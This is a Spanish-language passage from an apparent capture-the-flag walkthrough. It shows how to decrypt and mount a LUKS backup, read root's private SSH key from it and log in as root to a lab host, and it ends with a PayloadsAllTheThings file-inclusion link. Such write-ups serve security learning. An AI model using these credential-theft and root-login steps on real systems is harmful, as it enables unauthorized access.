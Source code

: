 ### LUKS

Montamos el archivo **encrypted_backup.img**.

- `sudo /sbin/cryptsetup luksOpen /var/backups/recovery/encrypted_backup.img backups`
- `mkdir mnt`
- `sudo /bin/mount /dev/mapper/backups ./mnt/`
- `cat mnt/id_rsa`
- `sudo /bin/umount ./mnt/`

![21](img/21.png)

Obtenemos la llave privada del usuario root. La copiamos, le damos permisos y nos conectamos por el servicio SSH.

- `chmod 400 id_rsa`
- `ssh -i id_rsa root@10.10.10.183`

![22](img/22.png)

## Referencias
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-phpfilter
